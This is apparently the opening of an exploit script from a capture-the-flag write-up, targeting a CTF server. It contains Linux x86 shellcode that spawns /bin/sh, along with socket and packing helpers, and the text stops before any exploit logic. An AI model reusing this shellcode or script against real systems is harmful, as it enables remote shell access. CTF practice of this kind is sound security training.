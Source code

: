 {% highlight python %}
#!/usr/bin/env python
#coding: UTF-8

import re
import sys
import time
import struct
import socket
import select

TARGET = ('europe.9447.plumbing', 9447)

# linux/x86 Shellcode execve ("/bin/sh")
SHELLCODE = (b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f'
             b'\x73\x68\x68\x2f\x62\x69\x6e\x89'
             b'\xe3\xb0\x0b\xcd\x80')

#
# Helper Functions
#
def e(s):
    return s.encode('UTF-8')

def d(s):
    return s.decode('UTF-8')

def p(d, fmt='<I'):
    return struct.pack(fmt, d)

def u(d, fmt='<I'):
    return struct.unpack(fmt, d)

def u1(d, fmt='<I'):
    return u(d, fmt)[0]

#
# Networking
#

# The default timeout (in seconds) to use for all operations that may raise an exception
DEFAULT_TIMEOUT = 5

class Connection:
    """Connection abstraction built on top of raw sockets."""

    def __init__(self, remote):
        self._socket = socket.create_connection(remote, DEFAULT_TIMEOUT)

        # Disable kernel TCP buffering
        self._socket.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

    def __enter__(self):
        return self

    def __exit__(self, type, value, traceback):
        self.disconnect()

    def disconnect(self):
        """Shut down and close the socket."""
        self._socket.shutdown(socket.SHUT_RDWR)
        self._socket.close()